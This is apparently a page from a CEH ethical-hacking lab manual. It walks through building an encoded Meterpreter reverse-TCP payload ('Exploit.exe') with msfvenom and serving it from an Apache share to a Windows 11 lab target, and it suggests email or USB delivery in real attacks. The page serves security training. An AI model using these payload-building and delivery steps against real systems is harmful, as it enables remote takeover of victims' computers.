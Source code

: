 Note: In This task, we are using the **Parrot Security** ( **10.10.1.13** ) machine as the host machine and the **Windows 11** ( **10.10.1.11** ) machine
as the target machine.

1. Click **CEHv12 Parrot Security** to switch to the **Parrot Security** machine, click the **MATE Terminal** icon at the top of the **Desktop**
    window to open a **Terminal** window.
2. A **Parrot Terminal** window appears. In the terminal window, type **sudo su** and press **Enter** to run the programs as a root user.
3. In the **[sudo] password for attacker** field, type **toor** as a password and press **Enter**.

```
Note: The password that you type will not be visible.
```
4. Now, type **cd** and press **Enter** to jump to the root directory.

### 


5. A **Parrot Terminal** window appears. In the terminal window, type **msfvenom -p windows/meterpreter/reverse_tcp --platform**
    **windows -a x86 -e x86/shikata_ga_nai -b "\x00" LHOST=10.10.1.13 -f exe > /home/attacker/Desktop/Exploit.exe** and press
    **Enter**.

```
Note: Here, the IP address of the host machine is 10.10.1.13 (here, this IP is the Parrot Security machine).
```
### 


6. The above command will create a malicious Windows executable file named “ **Exploit.exe** ,” which will be saved on the parrot
    **/home/attacker/Desktop** , as shown in the screenshot.

```
Note: To navigate to home/attacker/Desktop , click Places from the top-section of the Desktop and click Home Folder from the
drop-down options. The attacker window appears, click Desktop.
```
### 


7. Now, we need to share **Exploit.exe** with the victim machine. (In This task, we are using **Windows 11** as the victim machine).
8. In the previous lab, we already created a directory or shared folder ( **share** ) at the location ( **/var/www/html** ) with the required access
    permission. So, we will use the same directory or shared folder ( **share** ) to share **Exploit.exe** with the victim machine.

```
Note: If you want to create a new directory to share the Exploit.exe file with the target machine and provide the permissions, use
the below commands:
```
```
Type mkdir /var/www/html/share and press Enter to create a shared folder
Type chmod -R 755 /var/www/html/share and press Enter
Type chown -R www-data:www-data /var/www/html/share and press Enter
Note: Here, we are sending the malicious payload through a shared directory; but in real-time, you can send it as an email
attachment or through physical means such as a hard drive or pen drive.
```
9. Type **ls -la /var/www/html/ | grep share** and press **Enter**.
10. To copy the **Exploit.exe** file into the shared folder, type **cp /home/attacker/Desktop/Exploit.exe /var/www/html/share/** and
press **Enter**.
11. Type **service apache2 start** and press **Enter** to start the Apache server.